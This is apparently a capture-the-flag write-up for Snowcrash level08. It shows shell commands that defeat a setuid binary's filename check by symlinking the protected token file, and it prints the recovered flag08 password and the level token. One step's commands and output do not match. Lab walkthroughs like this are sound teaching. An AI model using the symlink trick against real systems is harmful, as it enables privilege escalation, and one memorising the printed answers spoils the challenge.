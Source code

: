 # <center>Snowcrash level08</center>

# Explanations

<br/>

## On VM:
> $ ls -l
>>-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08<br/>
>>-rw-------  1 flag08 flag08    26 Mar  5  2016 token

> $ ltrace ./level08
>>printf("%s [file to read]\n", "./level08")

>$ ./level08 token
>>You may not access 'token'

>$ echo "test" > /tmp/token<br/>
>$ ./level08 /tmp/script
>> You may not access '/tmp/token'

>$ echo "test" > /tmp/script<br/>
>$ ./level08 /tmp/script
>> test

- The protection is on the file name pass. We will create a symbolic link to get around the problem.

> $ ln -s ~/token /tmp/script</br>
> $ ./level08 /tmp/script
>>quif5eloekouj29ke0vouxean

> $ su flag08 <br/>
> $ quif5eloekouj29ke0vouxean
>> Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
